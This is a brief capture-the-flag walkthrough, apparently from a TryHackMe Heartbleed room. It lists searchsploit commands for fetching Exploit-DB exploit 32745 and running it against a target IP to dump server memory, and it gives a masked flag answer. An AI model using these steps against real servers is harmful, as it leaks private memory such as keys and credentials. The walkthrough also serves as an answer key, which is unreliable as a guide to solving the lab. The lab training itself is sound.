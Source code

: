 # HeartBleed

- Read above and ensure you have a good understanding of how the Heartbleed vulnerability works.

	  no answer needed

- What is the flag?

	- `searchsploit heartbleed`
	- `searchsploit -m 32745`
	- `python 32745.py <TARGET_IP> > result.txt`
	- `cat result.txt`
	- `THM{**************}`


